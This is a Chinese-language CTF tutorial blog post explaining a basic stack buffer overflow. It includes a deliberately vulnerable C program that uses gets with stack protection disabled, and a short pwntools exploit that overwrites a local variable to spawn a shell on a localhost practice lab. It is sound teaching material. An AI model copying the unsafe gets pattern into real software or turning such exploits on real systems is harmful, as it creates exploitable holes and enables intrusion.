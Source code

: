```yaml
---
title: "Day6－Basic buffer overflow"
date: 2024-09-06
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經歷了前面的許多基礎知識與工具介紹，終於來到了第一個漏洞與第一個 lab。而這個漏洞可以說是最簡單也最基本的，就是 **Buffer Overflow**。

## 介紹

首先，先來看一個簡單例子。假如一個程式宣告了一些變數及字串，記憶體中的狀態可能會是下圖的樣子：

![image](/images/iron2024/day6_image1.png)

如果對 `buf` 字串輸入正常大小的資料，例如這邊宣告的空間是 0x10（16 bytes），輸入 0x10 個 'A'，記憶體狀態可能會像下圖這樣：

![image](/images/iron2024/day6_image2.png)

然而，當使用一些不安全的函式來輸入數據時，例如 `gets` 函式，可能會產生問題。因為 `gets` 不會檢查輸入的長度，因此可能會覆蓋到 `buf` 後面的變數，甚至是 `rbp` 或 `return address`。以下例子顯示了覆蓋到後面變數 `num3` 和 `num4` 的情況：

![image](/images/iron2024/day6_image3.png)

如果對填入的值進行精確的編排，則可能成為如下所示的情況：

![image](/images/iron2024/day6_image4.png)

這就是最基本的 **Buffer Overflow** 例子。

## Lab

查看以下程式原始碼

```c
#include<stdio.h>
int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    int a = 10;
    printf("Please input your name: ");
    char b[10];
    gets(b);
    if(a == 0xdeadbeef){
        system("/bin/sh");
    }
    printf("Hello, %s\n", b);
    return 0;
}
```

使用以下指令進行編譯

```bash
gcc ./src/bof.c -o ./bof/share/bof -fno-stack-protector
```

大家可以先行使用 GDB 搭配 pwntools 實作題目。如果想提前了解解答，可以繼續閱讀本文中的解說。

## writeup

可以發現程式在第 9 行使用了上面提到的 `gets` 函式來讀取 `b` 字串。接下來，有一個判斷條件是檢查變數 `a` 是否等於 `0xdeadbeef`，如果相等，則會開啟一個 shell。因此，我們的目標有以下兩點：

- 找出需要填充多少字元才能將 `a` 覆蓋為 `0xdeadbeef`。
- 如何將值覆蓋成 `0xdeadbeef`。
為了解決第一個問題，我們可以使用 `objdump` 來 disassemble 程式。會發現在 `gets` 函式之前，程式會為 `buf` 分配空間，對 `lea rax,[rbp-0xe]` 記憶體進行操作。接著，在輸入結束後，程式會使用 `cmp DWORD PTR [rbp-0x4],0xdeadbeef` 進行比較。這告訴我們填充的字元數量是 `0xe - 0x4 = 0xa`，即 10 個字元。

![image](/images/iron2024/day6_image5.png)

當然，除了使用 `objdump` 進行 disassemble 外，也可以使用 GDB 直接觀察程式。首先，使用 GDB 啟動程式（如 `gdb ./bof`），設置斷點在 `main` 函式處（`b main`），並執行程式（`r`）。接著，逐步執行程式（`ni`），直到輸入字串處。這時，我們可以輸入有規律的字元，觀察覆蓋位置，例如輸入 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ。

![image](/images/iron2024/day6_image6.png)

輸入後，我們可以檢查記憶體中的值，會發現覆蓋了兩個 `0x43` 和四個 `0x44`，即 `CCDDDD`。依照剛剛的輸入字串，發現我們需要覆蓋 `AAAABBBBCC`，也就是 `10` 個字元。

![image](/images/iron2024/day6_image7.png)

接下來，我們需要使用 `pwntools` 將 `0xdeadbeef` 覆蓋到適當的位置。使用 `checksec` 可以確認這個檔案是 64 位元，這樣我們就可以使用 `p64()` 來將 `0xdeadbeef` 轉換成 `64` 位格式並覆蓋變數。

![image](/images/iron2024/day6_image8.png)

以下會發現我有留了一行遠端連線的程式碼，這是因為筆者的檔案有附上 docker-compose.yml 跟 DockerFile 跟 xinetd，所以可以讓讀者將題目架起來並實際做練習

完整 exploit：

```python
from pwn import *
# r = process('./bof')
r = remote('127.0.0.1', 10000)
r.sendlineafter(b'Please input your name: ', b'AAAAAAAAAA' + p64(0xdeadbeef))
r.interactive()
```

以下是將題目實際架起來並拿到 flag 的結果

solved！！

![image](/images/iron2024/day6_image9.png)
